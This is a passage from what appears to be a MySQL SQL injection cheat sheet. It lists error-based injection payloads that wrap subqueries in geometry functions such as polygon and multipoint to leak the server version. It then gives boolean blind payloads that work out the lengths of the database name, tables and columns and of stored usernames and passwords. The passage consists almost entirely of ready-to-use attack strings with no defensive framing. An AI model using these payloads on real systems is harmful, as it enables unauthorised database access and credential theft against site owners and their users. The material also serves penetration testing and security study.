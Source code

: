 ````sql
```

#### geometrycollection
````sql
and geometrycollection((select * from(select * from(select version())a)b)); --+
```

#### linestring
````sql
and linestring((select * from(select * from(select version())a)b)); --+
```

#### polygon
````sql
and polygon((select * from(select * from(select version())a)b)); --+
```

#### multipoint
````sql
and multipoint((select * from(select * from(select version())a)b)); --+
```

#### multipolygon
````sql
and multipolygon((select * from(select * from(select version())a)b)); --+
```

#### multilinestring
````sql
and multilinestring((select * from(select * from(select version())a)b)); --+
```

#### Non-existent functions
In `MySQL`, when selecting a function that does not exist, you may get the current database name.

<div align=center><img src="./images/2.png"></div>

### Boolean blind
The following statements can be judged by means of signs greater than or less than combined with dichotomies, thereby shortening the time spent on injection.
####Judge length
````sql
# determine the length of the current database
and length(database())=8 --+

# Determine how many tables are in the current database
and ((select count(*) from information_schema.tables where table_schema=database())=4) --+

# Judge the length of each table
and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 --+
and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=1--+

# Number of columns in the judgment table users
and ((select count(*) from information_schema.columns where table_schema=database() and table_name='users')=3) --+

# Determine the number of columns in a table
and ((select count(*) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1))=3) --+

# Determine the length of data of the corresponding fields in a table
and length((select username from users where id =1))=4 --+
and length((select password from users where id =1))=4 --+
```
````
